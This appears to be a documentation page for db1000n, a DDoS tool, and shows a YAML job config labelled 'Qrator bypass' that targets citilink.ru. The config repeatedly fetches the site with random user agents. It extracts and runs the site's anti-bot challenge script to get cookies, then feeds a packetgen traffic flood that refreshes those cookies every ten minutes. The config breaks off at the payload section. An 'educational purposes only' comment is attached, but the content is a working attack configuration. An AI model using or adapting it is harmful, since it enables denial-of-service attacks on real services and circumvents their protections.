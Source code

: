 ## Examples

All of these include full config as if example job is the only one being performed by db1000n

- Qrator bypass (before they implemented complex challenges)

```yaml
# it is here for educational purposes only and is meant to showcase the capabilities of the tool
jobs:
  - type: loop
    args:
      job:
        type: sequence # should probably be wrapped into a loop
          args:
          jobs:
            - type: set-value
              name: useragent
              args:
                value: "{{ random_user_agent }}"
            - type: http-request
              name: initial
              args:
                request:
                method: GET
                path: https://www.citilink.ru
                headers:
                  User-Agent: '{{ .Value (ctx_key "data.useragent") }}'
                  Accept: "text/html"
                  Accept-Language: "en-US"
                  Connection: "keep-alive"
            - type: set-value
              name: source
              args:
                value: '{{ index (.Value (ctx_key "data.initial")) "response" "body" }}'
            - type: set-value
              name: extract-script
              args:
                value: '{{ index (split (index (split (.Value (ctx_key "data.source")) "function() {") 1) "var config") 0 }}'
            - type: js
              name: exec-script
              args:
                script: '{{ .Value (ctx_key "data.extract-script") }}'
            - type: timeout
              args:
                timeout: 10m # to refresh cookies every 10 minutes
                job:
                  type: packetgen
                  args:
                    connection: # connection settings
                      type: net # "net" used for L4+ connections (udp, tcp, tcp+tls), use "raw" example for ip connections
                      args:
                        protocol: "tcp" # tcp or udp
                        address: "localhost:1234"
                        tls_config: # optional, avoid this block for a raw tcp connection. not sure how it will behave in case of a udp connection
                          insecure_skip_verify: true
                    packet: # packets
                      payload: # L5-L7 content for the packets being sent, for "net" connections it's the only part that is needed as everything else is generated by runtime
                        type: http # example of http payload, 'data' contais same layout as 'request' in http job
                        data:
```